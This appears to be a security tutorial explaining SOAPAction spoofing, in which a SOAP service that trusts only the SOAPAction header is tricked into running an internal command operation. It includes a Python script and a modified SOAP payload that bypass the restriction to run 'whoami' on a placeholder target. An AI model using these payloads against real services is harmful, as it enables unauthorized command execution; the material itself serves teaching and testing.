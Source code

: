 SOAP messages towards a SOAP service should include both the operation and the related parameters. This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed to use an additional HTTP header called SOAPAction, which contains the operation's name, in which the receiving web service can identify the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to SOAPAction spoofing.

The following is an example of a SOAPAction operation:
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```
Below is its corresponding parameters:
```xml
<s:element name="ExecuteCommandRequest">
	<s:complexType>
		<s:sequence>
			<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
		</s:sequence>
	</s:complexType>
</s:element>
```

Notice that there is a `cmd` parameter. The following Python script can be used to issue requests to execute the `whoami` command, in this example.
```python
import requests

payload = """
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<ExecuteCommandRequest xmlns="http://tempuri.org/">
<cmd>whoami</cmd>
</ExecuteCommandRequest>
</soap:Body>
</soap:Envelope>
"""

req = requests.post(
	'http://target-website.com/wsdl',
	data=payload,
	headers={"SOAPAction": '"ExecuteCommand"'}
)

print(req.content)
```

When we execute this script, it will throw an error as the `ExecuteCommand` action is only allowed internally. However, not all is lost, we can still try for SOAPAction spoofing attack. To do this, we will replace our `payload` variable's value with the following:
```
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<LoginRequest xmlns="http://tempuri.org/">
<cmd>whoami</cmd>
</LoginRequest>
</soap:Body>
</soap:Envelope>
```
In our new payload, we did the following:
- We specify `LoginRequest` in `<soap:Body>` instead, since this operation is allowed externally, our request will go through.
- Inside the `LoginRequest`, we will specify the parameters of `ExecuteCommandRequest` because our aim is to achieve code execution.
- We will leave the value of `SOAPAction` HTTP header to `ExecuteCommand`.

If the web service does not implement additional checks and only uses the `SOAPAction` HTTP to determine which operation to execute, we can bypass any security filters/restrictions of the SOAP service.